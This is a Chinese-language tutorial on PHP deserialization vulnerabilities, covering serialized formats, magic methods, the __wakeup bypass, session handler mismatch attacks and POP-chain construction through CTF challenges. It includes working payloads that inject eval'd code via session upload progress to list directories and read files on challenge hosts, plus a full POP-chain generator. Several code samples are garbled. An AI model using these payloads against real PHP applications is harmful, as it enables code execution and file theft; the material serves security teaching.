## 0x00 PHP序列化是什么

### 两个函数

serialize() //将一个对象转换成一个字符串 unserialize() //将字符串还原成一个对象

通过序列化与反序列化我们可以很方便的在PHP中进行对象的传递。本质上反序列化是没有危害的。但是如果用户对数据可控那就可以利用反序列化构造payload攻击。

### 示例

#### 序列化

反序列化可以控制类属性，无论是private还是public



```plaintext
O:4:"test":2:{s:10:"testflag";s:9:"flag{233}";s:1:"a";s:3:"aaa";}
O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>}
```

这里说明一下序列化字符串的含义：
`O:4:"test"`指Object(对象) 4个字符:test
`:2`对象属性个数为2
{}中为属性字符数：属性值

**注意：**可以看到testflag的长度为8，序列化中却显示长度为10。这是因为它是private属性，翻阅文档就可以看到说明，它会在两侧加入空字节。



所以在传入序列化字符串进行反序列化时需要注意补齐两个空字节。

#### 反序列化




## 0x01 魔术方法

在利用对PHP反序列化进行利用时，经常需要通过反序列化中的魔术方法，检查方法里有无敏感操作来进行利用。

### 常见方法

| 魔术方法                   | 作用                                    |
| ---------------------- | ------------------------------------- |
| __construct            | 类的构造函数，实例化类时自动调用                      |
| __destruct             | 类的析构函数，类对象使用结束时自动调用                   |
| __call(\$name,\$value) | 调用一个不存在的方法时自动调用                       |
| __callStatic           | 调用一个不存在的静态方法时自动调用                     |
| __set(\$name,\$value)  | 在给不可访问属性赋值时自动调用                       |
| __get(\$name)          | 调用不可访问属性时自动调用                         |
| __isset()              | 当对不可访问属性使用 isset(或 emptyO 函数时自动调用     |
| __unset()              | 当对不可访问属性使用unsetO时自动调用                 |
| __sleep()              | serialize序列化时自动调用                     |
| __wakeup()             | unserialize 反序列化时自动调用                 |
| __toString()           | 把对象转换成字符串时自动调用                        |
| __invoke()             | 把对象当函数方法使用时自动调用                       |
| __set_state()          | 当使用 var_exportO 函数时此静态方法自动调用，接受一个数组参数 |
| __clone()              | 当使用 clone 复制对象完成后自动调用                 |
| __autoload()           | 尝试加载未定义的类时自动调用                        |
| __debugInfo()          | 使用var_dump0打印对象信息时自动调用                |

### 比较重要的方法

#### __sleep()

> serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个 E_NOTICE 级别的错误。

对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性。

#### __wakeup()

> unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

预先准备对象资源，返回void，常用于反序列化操作中重新建立数据库连接或执行其他初始化操作。

实例：

ID \= $ID; $this\->sex \= $sex; $this\->age \= $age; $this\->info \= sprintf("ID: %s, age: %d, sex: %s", $this\->ID, $this\->sex, $this\->age); } public function getInfo(){ echo $this\->info . '
'; } /\*\* \* serialize前调用 用于删选需要被序列化存储的成员变量 \* @return array \[description\] \*/ public function \_\_sleep(){ echo \_\_METHOD\_\_ . '
'; return \['ID', 'sex', 'age'\]; } /\*\* \* unserialize前调用 用于预先准备对象资源 \*/ public function \_\_wakeup(){ echo \_\_METHOD\_\_ . '
'; $this\->info \= sprintf("ID: %s, age: %d, sex: %s", $this\->ID, $this\->sex, $this\->age); } } $me \= new Caiji('twosmi1e', 20, 'male'); $me\->getInfo(); //存在\_\_sleep(函数，$info属性不会被存储 $temp \= serialize($me); echo $temp . '
'; $me \= unserialize($temp); //\_\_wakeup()组装的$info $me\->getInfo(); ?> 运行结果：



#### __toString()

> __toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。此方法必须返回一个字符串，否则将发出一条 E_RECOVERABLE_ERROR 级别的致命错误。

ID \= $ID; $this\->sex \= $sex; $this\->age \= $age; $this\->info \= sprintf("ID: %s, age: %d, sex: %s", $this\->ID, $this\->sex, $this\->age); } public function \_\_toString(){ return $this\->info; } } $me \= new Caiji('twosmi1e', 20, 'male'); echo '\_\_toString:' . $me . '
'; ?> 运行结果：




### 热身题

这是D0g3平台一道很简单的反序列化的题，GET读str内容进行反序列化等于$KEY就get flag了

file)) { if(strchr($this\-> file,"\\\\")\===false && strchr($this\->file, '/')\===false) show\_source(dirname (\_\_FILE\_\_).'/'.$this \->file); else die('Wrong filename.'); } } function \_\_wakeup(){ $this\-> file\='index.php'; } public function \_\_toString() return '' ; } } if (!isset($\_GET\['file'\])){ show\_source('index.php'); } else{ $file\=base64\_decode($\_GET\['file'\]); echo unserialize($file); } ?>


分析一下源码，`__destruct`方法中`show_source(dirname (__FILE__).'/'.$this ->file);`会读取file文件内容，我们需要利用这里来读flag.php，思路大概就是构造序列化对象然后base64编码传入，经过unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

这里就要用到CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：O:5:"SoFun":**1**:{S:7:"\00*\00file";s:8:"flag.php";}
**绕过__wakeup**：O:5:"SoFun":**2**:{S:7:"\00*\00file";s:8:"flag.php";}

注意：因为file是protect属性，所以需要加上\00*\00。再base64编码。
payload：Tzo1OiJTb0Z1biI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ==

这里可以自己写一个相对简单的例子来加以理解

key)){ if($this\->key \== 'twosmi1e') echo 'success'; } } function \_\_wakeup(){ $this\->key \= 'you failed 23333'; echo $this\->key; } public function \_\_toString(){ return ''; } } if(!isset($\_GET\['answer'\])){ show\_source('serializetest.php'); }else{ $answer \= $\_GET\['answer'\]; echo $answer; echo '
'; echo unserialize($answer); } ?> 我们首先构造序列化正常序列化对象：`O:9:"Twosmil1e":1:{s:3:"key";s:8:"twosmi1e";}`




发现`__wakeup()`会先执行，`__destruct()`中的判断不成立，无法输出success，尝试将对象属性个数1改为任意大于1的数，即可绕过`__wakeup()`




## 0x03 session反序列化漏洞

### 简介

首先我们需要了解session反序列化是什么？
PHP在session存储和读取时,都会有一个序列化和反序列化的过程，PHP内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化
在php.ini中有以下配置项，wamp的默认配置如图


`session.save_path` 设置session的存储路径
`session.save_handler` 设定用户自定义存储函数
`session.auto_start` 指定会话模块是否在请求开始时启动一个会话
`session.serialize_handler` 定义用来序列化/反序列化的处理器名字。默认使用php
除了默认的session序列化引擎php外，还有几种引擎，不同引擎存储方式不同

•php_binary 键名的长度对应的ASCII字符＋键名＋经过serialize() 函数反序列处理的值•php 键名＋竖线＋经过serialize()函数反序列处理的值•php_serialize serialize()函数反序列处理数组方式

### 存储机制

php中的session内容是以**文件**方式来存储的，由`session.save_handler`来决定。文件名由`sess_sessionid`命名，文件内容则为session序列化后的值。
来测试一个demo

```plaintext
<?php
    ini_set('session.serialize_handler','php_serialize');
    session_start();

    $_SESSION['name'] = 'twosmi1e';
?>
```

运行后在配置文件设定的路径中会生成一个session文件


存储引擎为php时




存储引擎为php_binary时结果为


三种处理器的存储格式差异，就会造成在session序列化和反序列化处理器设置不当时的安全隐患。

### 如何利用

直接上例子吧

#### Jarvisoj Web

> 题目地址：http://web.jarvisoj.com:32784/index.php

```plaintext
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('sessiontest.php'));
}
?>
```

先来看一看phpinfo里的内容 php版本：5.6.21
**php大于5.5.4的版本中默认使用php_serialize规则**




默认为php_serialize而index.php中又使用了php，反序列化和序列化使用的处理器不同，由于格式的原因会导致数据无法正确反序列化，那么就可以通过构造伪造任意数据。




> PHP手册
> Session 上传进度
> 当 session.upload_progress.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在\$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。

了解了之后，就可以通过POST方法来构造数据传入`$_SESSION`
构造POST提交表单

```plaintext
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

构造序列化字符串

```plaintext
<?php
class OowoO
{
    public $mdzz='print_r(dirname(__FILE__));';
}
$obj = new OowoO();
$a = serialize($obj);

var_dump($a);
```

注意需要转义，抓包吧filename改为payload
最终提交为：`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}`




目录/opt/lampp/htdocs
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`继续读




然后用`file_get_contents`函数读flag
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`




#### 安洵杯Double-S

也是类似的一道session反序列化的题

```plaintext
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Anti
{
    public $info;
    function __construct()
    {
        $this->info = 'phpinfo();';
    }
    function __destruct()
    {
        eval($this->info);
    }
}
if(isset($_GET['aa']))
{
    if(unserialize($_GET['aa'])=='phpinfo')
    {
        $m = new Anti();
    }
}
else
{
    header("location:index.html");
}
?>
```

emmmm 几乎一样 可以自己试着做一下
`http://54.200.169.99:7000/session.php?aa=O:4:"Anti":1:{s:4:"info";s:36:"print_r(scandir(dirname(__FILE__)));";}`
发现flag文件http://54.200.169.99:7000/f1ag_i3_h3re
D0g3{Sim_Pl3_S3sSi0n}

## 0x04 POP链构造

### POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**

### POP链利用

一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

### 实战训练

```plaintext
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function test1()
    {
            $this->mod1->test2();
    }
}
class funct
{
        public $mod1;
        public $mod2;
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __invoke()
        {
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```

可以看到需要执行GetFlag类中的get_flag()函数，这是一个类的普通方法。要让这个方法执行，需要构造一个POP链。

1.`string1`中的`__tostring`存在`$this->str1->get_flag()`，分析一下要自动调用`__tostring()`需要把类`string1`当成字符串来使用，因为调用的是参数`str1`的方法，所以需要把`str1`赋值为类`GetFlag`的对象。2.发现类`func`中存在`__invoke`方法执行了字符串拼接，需要把`func`当成函数使用自动调用`__invoke`然后把`$mod1`赋值为`string1`的对象与`$mod2`拼接。3.在`funct`中找到了函数调用，需要把`mod1`赋值为`func`类的对象，又因为函数调用在`__call`方法中，且参数为`$test2`,即无法调用`test2`方法时自动调用 `__call`方法；4.在`Call`中的`test1`方法中存在`$this->mod1->test2();`，需要把`$mod1`赋值为`funct`的对象，让`__call`自动调用。5.查找`test1`方法的调用点，在`start_gg`中发现`$this->mod1->test1();`，把`$mod1`赋值为`start_gg`类的对象，等待`__destruct()`自动调用。

payload：

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new funct();//把 $mod1赋值为funct类对象
        }
        public function test1()
        {
                $this->mod1->test2();
        }
}

class funct
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new func();//把 $mod1赋值为func类对象

        }
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

输出payload后传参，成功执行get_flag()




另外推荐一下柠檬师傅博客的那道题

> http://www.cnblogs.com/iamstudy/articles/php_unserialize_pop_2.html
> https://cl0und.github.io/2017/10/01/POP%E9%93%BE%E5%AD%A6%E4%B9%A0/

## 0x05 小结

反序列化漏洞一般都是在白盒审计时发现并利用，需要构造PHP序列化代码，利用条件比较苛刻。

总结一下PHP反序列化的挖掘思路，首先进行反序列化的数据点是用户可控的，然后反序列化类中需要有魔术方法，魔术方法中存在敏感操作，或者魔术方法中无敏感操作，但是其对象调用了其他类中的同名函数，可以通过构造POP链利用。

另外再贴一些相关文章，希望对大家有所帮助

> https://xz.aliyun.com/t/3336
> https://xz.aliyun.com/t/2733
> https://www.anquanke.com/post/id/162300